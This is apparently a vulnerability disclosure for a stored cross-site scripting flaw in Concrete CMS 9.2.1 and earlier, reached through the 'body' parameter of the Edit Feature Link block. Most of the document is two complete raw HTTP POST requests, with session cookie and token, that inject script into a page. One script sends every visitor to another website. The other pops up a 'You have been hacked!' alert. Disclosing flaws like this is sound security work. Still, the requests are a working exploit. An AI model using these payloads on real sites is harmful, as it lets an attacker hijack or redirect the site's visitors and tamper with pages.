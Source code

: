 BUG_Author:
LJWIIE

Affected version:
Concrete CMS

Vendor:
https://www.concretecms.org/

Software:

https://www.concretecms.org/download

https://github.com/concretecms/concretecms/releases/tag/9.2.1

Vulnerability File:
index.php/ccm/system/dialogs/block/edit.php, function submit()

Description:

In Concrete CMS versions 9.2.1 and earlier, authenticated users can execute Stored Cross-Site Scripting (XSS) attacks via the "body" parameter in the "Edit Feature Link" function. This may lead to harmful actions such as redirects, unwanted ads, and executing malicious HTML code, posing risks to visitors and the site's integrity.

Status: Medium

POST parameter 'body' contains a Stored Cross-Site Scripting (XSS) vulnerability

[Redirect to Google official website]Payload1:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1952
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script type="text/javascript">
        window.onload = function() {
            window.location.href = 'https://www.google.com';
        };
</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/c20eeb0d-78a7-4f65-a48a-c0e81469355e)

After editing and saving, anyone who visits this page will be forced to go to the Google website.

![RedirectToGoogle](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/3d2ed4e1-abec-4053-8166-5bdf198de7bd)

[Display alert window]Payload2:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1831
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script>alert("You have been hacked!")</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```
![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/8eb05aa6-b84c-4839-994f-78b318a3e324)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/aa0a61ad-c1c2-4903-8019-a1fa9a4f060c)

